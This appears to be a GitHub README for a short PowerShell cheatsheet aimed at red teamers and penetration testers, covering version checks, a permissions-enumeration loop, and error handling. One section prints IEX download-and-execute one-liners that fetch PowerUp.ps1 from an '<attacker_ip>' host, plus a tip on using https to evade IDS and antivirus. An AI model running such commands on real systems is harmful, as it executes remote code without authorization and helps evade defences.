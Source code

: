 # Powershell Cheatsheet - For RT / PT
## Information about this repository
Q: What is this cheatsheet supposed to be?

This is going to be my powershell cheatsheet (probably won't be the best but I hope you can take a few things from here)

Q: Who is this made for?

Made for red teamers / penetration testers / blue teamers ( / sysadmins if you really feel like it)

Q: Which versions of powershell will this be supporting?

From powershell v2 onwards (even though I will be putting things that are not supported in powershell v2).

The obligatory `please do not use this cheatsheet for any illegal or malicious activities.`

## Useful commands
### Enumeration

This will be a place for enumeration commands.

#### Checking powershell version different methods:
##### Registry
```Powershell
(Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine -Name 'PowerShellVersion').PowerShellVersio
```
##### $host Variable
```Powershell
$host.Version
```
##### Get-Host
```Powershell
(Get-Host).Version
```
##### $PSVersionTable Variable
```Powershell
$PSVersionTable.PSVersion
```

### Password / Hidden data

This will be a place for finding passwords or hidden data.

### Read / Writable files

This is going to assist you in detecting faulty permissions.
##### Get all directories with ownership
```Powershell
foreach ($file in (Get-ChildItem -Directory -Path "C:\Users" -Recurse -Force -ErrorAction SilentlyContinue)) { Get-Acl $file.FullName | Where-Object -Property Owner -eq ([System.Security.Principal.WindowsIdentity]::GetCurrent().Name) | Select -ExpandProperty Path | Convert-Path}
```
##### Short explanation: We are looping over each directory and file with Get-ChildItem, then extracting the ACLs from the file / directory and checking if the owner is the current user account with `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name`, the rest is just for prettifying and expanding.


### Execute powershell scripts on the target
##### Download from share
```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('\\<attacker_ip>\share\PowerUp.ps1')
```

##### Download from http server 
```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker_ip>:8090/PowerUp.ps1')
```
##### Note: For encrypted communication and bypassing any IDS or antiviruses you could use https:// instead. 

### Misc.
#### Error handling 
```Powershell
$ErrorActionPreference = "SilentlyContinue" # / "Stop" / "Inquire" / "Continue" (Default) / "Suspend"
```

## Sources
- https://github.com/specterops/at-ps (Amazing course, very recommended)
- The interwebz
- My personal journey
- https://adamtheautomator.com/check-powershell-version/
- https://www.gngrninja.com/script-ninja/2016/6/5/powershell-getting-started-part-11-error-handling
